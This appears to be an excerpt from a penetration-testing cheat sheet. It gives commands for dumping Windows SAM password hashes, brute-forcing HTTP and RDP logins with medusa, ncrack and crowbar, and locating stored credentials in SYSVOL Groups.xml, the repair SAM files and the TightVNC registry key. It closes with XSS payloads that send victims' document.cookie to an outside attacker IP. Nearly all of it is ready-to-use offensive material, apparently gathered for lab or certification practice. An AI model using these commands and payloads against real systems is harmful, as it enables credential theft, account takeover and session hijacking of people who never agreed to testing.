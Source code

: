 ### SAM

```bash
pwdump system SAM
```

## Bruteforce

### HTTP

```bash
medusa -h <host-ip> -u {jeff,admin} -P mega-mangled -M http -n 80 -m DIR:/xampp -T 3
```

### RDP
```bash
ncrack -vv --user administrator -P ~/PASSWD/mega-mangled rdp://<host-ip>
```


```bash
python crowbar.py -b rdp -s <host-ip>/32 -U ~/targets/0_usernames -C ~/targets/0_passwords
```

## Files

### Windows

#### Files containing passwords

Files

```posh
# has to be decrypted with gpp-decrypt
C:\Windows\SYSVOL\sysvol\<domain-name>\Policies\{43383995-A780-486C-83E1-469CB7FF2BF4}\Machine\Preferences\Groups>more Groups.xml

C:\Windows\repair\SAM && C:\Windows\repair\system
```

Registry

```bash
# TightVNC server
reg query HKLM\Software\TightVNC\Server
```


# XSS

```javascript
'">><script>i=document.createElement("img");i.src='http://10.11.0.61:5555/'+document.cookie;</script>


<script>
new Image().src="http://10.11.0.61:81/bogus.php?output="+document.cookie;
</script>
```
